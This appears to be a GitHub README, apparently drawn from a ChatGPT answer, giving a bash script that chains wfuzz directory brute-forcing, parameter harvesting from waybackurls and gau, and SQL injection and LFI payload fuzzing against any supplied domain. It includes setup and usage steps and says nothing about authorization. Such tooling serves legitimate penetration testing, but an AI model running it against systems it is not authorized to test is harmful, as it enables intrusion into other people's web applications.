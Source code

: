 # Wfuzz-Bash-automation-script
Awesome 👍 Let’s make this script smarter.
We’ll **automatically detect parameters first**, then run SQLi & LFI fuzzing against them.

The workflow will be:

1. **Directory brute-force** (as before).
2. **Find GET parameters** in the target (`waybackurls` + `gau` + `grep`).
3. For each discovered parameter, run:

   * SQLi fuzzing
   * LFI fuzzing
4. Save results into the current folder.

---

## 🔹 wfuzz-auto.sh (with Auto Parameter Detection)

```bash
#!/bin/bash
# Wfuzz Automation Script (Dir + Auto Param Detection + SQLi + LFI)
# Author: ChatGPT Assistant

if [ -z "$1" ]; then
    echo "Usage: $0 <target_domain>"
    echo "Example: $0 example.com"
    exit 1
fi

DOMAIN=$1
TARGET="http://$DOMAIN"
WORDLIST_DIR="/usr/share/wordlists"

# Wordlists
COMMON_WORDLIST="$WORDLIST_DIR/dirb/common.txt"
SQLI_PAYLOADS="$WORDLIST_DIR/SecLists/Fuzzing/SQLi/sql-injection.txt"
LFI_PAYLOADS="$WORDLIST_DIR/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt"

echo "[*] Starting Wfuzz automation on: $TARGET"
echo "[*] Results will be saved in the current folder."

# ----------------------------
# Directory Bruteforce
# ----------------------------
echo "[*] Running Directory Bruteforce..."
wfuzz -c -z file,$COMMON_WORDLIST --hc 404 $TARGET/FUZZ \
    | tee dirs.txt

# ----------------------------
# Parameter Discovery
# ----------------------------
echo "[*] Discovering Parameters..."
PARAMS_FILE="params.txt"
> $PARAMS_FILE

# Collect URLs with parameters from Wayback + gau
if command -v waybackurls &>/dev/null; then
    waybackurls $DOMAIN | grep "=" >> $PARAMS_FILE
fi

if command -v gau &>/dev/null; then
    gau $DOMAIN | grep "=" >> $PARAMS_FILE
fi

sort -u -o $PARAMS_FILE $PARAMS_FILE

if [ ! -s $PARAMS_FILE ]; then
    echo "[!] No parameters found automatically. Exiting fuzzing."
    exit 0
fi

echo "[*] Found $(wc -l < $PARAMS_FILE) parameterized URLs."
echo "[*] Results saved in $PARAMS_FILE"

# ----------------------------
# SQL Injection Fuzzing
# ----------------------------
echo "[*] Running SQLi Fuzzing..."
while read -r url; do
    echo "[*] Testing SQLi on $url"
    wfuzz -c -z file,$SQLI_PAYLOADS --hh 0 "$url" \
        | tee -a sqli.txt
done < $PARAMS_FILE

# ----------------------------
# LFI Fuzzing
# ----------------------------
echo "[*] Running LFI Fuzzing..."
while read -r url; do
    echo "[*] Testing LFI on $url"
    wfuzz -c -z file,$LFI_PAYLOADS --hh 0 "$url" \
        | tee -a lfi.txt
done < $PARAMS_FILE

echo "[*] Scans complete! Check results in current folder:"
echo "  - dirs.txt  (directories & files)"
echo "  - params.txt (discovered parameters)"
echo "  - sqli.txt  (SQLi fuzz results)"
echo "  - lfi.txt   (LFI fuzz results)"
```

---

## 🔹 Setup Requirements

Install **SecLists** (for payloads):

```bash
sudo apt install seclists -y
```

Install **gau** + **waybackurls** (for parameter discovery):

```bash
go install github.com/tomnomnom/gau@latest
go install github.com/tomnomnom/waybackurls@latest
```

(Ensure `$GOPATH/bin` is in your `$PATH`)

---

## 🔹 Usage

```bash
chmod +x wfuzz-auto.sh
./wfuzz-auto.sh target.com
```

---

## 🔹 Output

* `dirs.txt` → Directory brute-force results
* `params.txt` → Discovered parameterized URLs
* `sqli.txt` → SQL injection fuzzing results
* `lfi.txt` → LFI fuzzing results

---

⚡ This script **first finds real parameters**, then injects SQLi & LFI payloads, so it’s much smarter than static testing.


